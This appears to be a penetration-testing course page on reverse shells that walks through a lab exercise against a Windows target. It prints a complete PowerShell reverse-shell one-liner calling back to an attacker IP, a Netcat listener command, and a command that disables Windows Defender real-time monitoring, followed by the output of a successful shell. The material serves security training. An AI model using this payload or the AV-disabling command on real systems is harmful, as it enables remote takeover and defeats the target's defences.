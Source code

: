 # Reverse Shells

We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected. The last section discussed how bind shells rely on incoming connections allowed through the firewall on the server-side. It will be much harder to pull this off in a real-world scenario. As seen in the image above, we are starting a listener for a reverse shell on our attack box and using some method (example: Unrestricted File Upload, Command Injection, etc..) to force the target to initiate a connection with our target box, effectively meaning our attack box becomes the server and the target becomes the client.

We don't always need to re-invent the wheel when it comes to payloads (commands & code) we intend to use when attempting to establish a reverse shell with a target. There are helpful tools that infosec veterans have put together to assist us. Reverse Shell Cheat Sheet is one fantastic resource that contains a list of different commands, code, and even automated reverse shell generators we can use when practicing or on an actual engagement. We should be mindful that many admins are aware of public repositories and open-source resources that penetration testers commonly use. They can reference these repos as part of their core considerations on what to expect from an attack and tune their security controls accordingly. In some cases, we may need to customize our attacks a bit.

## Hands-on With A Simple Reverse Shell in Windows

We can start a Netcat listener on our attack box as the target spawns.

```
frank-106@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

### What applications and shell languages are hosted on the target?

This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

*Client (target)*
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Please take a close look at the command and consider what we need to change for this to allow us to establish a reverse shell with our attack box. This PowerShell code can also be called shell code or our payload. Delivering this payload onto the Windows system was pretty straightforward, considering we have complete control of the target for demonstration purposes. As this module progresses, we will notice the difficulty increases in how we deliver the payload onto targets.

### What happened when we hit enter in command prompt?

*Client (target)*
```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

The Windows Defender antivirus (AV) software stopped the execution of the code. This is working exactly as intended, and from a defensive perspective, this is a win. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the Virus & threat protection settings or by using this command in an administrative PowerShell console (right-click, run as admin):

*Disable AV*
```
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Once AV is disabled, attempt to execute the code again.

*Server (attack box)*
```
frank-106@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```